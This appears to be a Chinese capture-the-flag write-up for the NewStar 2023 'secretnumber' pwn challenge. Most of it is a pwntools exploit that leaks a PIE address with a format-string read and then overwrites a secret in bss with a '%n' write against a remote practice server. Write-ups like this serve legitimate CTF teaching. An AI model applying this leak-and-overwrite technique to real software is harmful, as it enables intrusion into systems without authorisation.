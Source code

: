 ```yaml
---
title: newstar2023 week2 - secretnumber
date: 2023/10/3 12:00:00
tags:
    - noob
excerpt: 通过格式化字符串漏洞，利用bss上的secret数字地址进行覆盖，成功解题。
---
```


## 文件分析

下载`secretnumber`, 保护全开  
ghidra分析为64位程序

## 解题思路

输入1后可以触发格式化字符串漏洞，由于secret数字放在bss上，所以可以先获得地址，
在写入小数字覆盖，然后输入非1数字进入猜数字环节，输入覆盖的数字即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29392)

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%17$p') # locate main to get pieBase

sh.recvuntil(b'gift:\n')
pieBase = int(sh.recvline()[:14], 16) - 0x12f5
secretAddr = pieBase + 0x404c

sh.sendline(b'1')
sh.sendlineafter(b'it', b'pad_%9$n' + p64(secretAddr)) # arg8: pad_%9$n, arg9: secretAddr

sh.sendlineafter(b'/1)', b'0')
sh.sendlineafter(b'number', b'4')
sh.interactive()
```

Done.
